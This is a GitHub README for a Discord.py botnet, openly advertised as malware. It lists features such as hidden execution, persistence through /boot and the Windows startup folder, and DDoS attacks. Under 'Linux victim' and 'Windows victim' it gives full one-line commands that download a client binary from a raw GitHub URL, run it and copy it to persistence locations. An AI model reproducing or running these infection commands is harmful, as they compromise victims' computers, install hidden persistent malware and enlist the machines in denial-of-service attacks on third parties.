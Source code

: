 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/202854669-6d08daef-eae2-438b-a354-78b8accb7cb5.png)

https://discord.gg/vCdPTjD6rZ

# Credits:
Orig - batu.sh#9675

TG @udbnt

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/202915584-8783ef8b-edaa-47ea-9034-83ff74c26af9.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; apt-get install python3 -y; curl -O LClient "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile WClient.exe & copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & WClient.exe
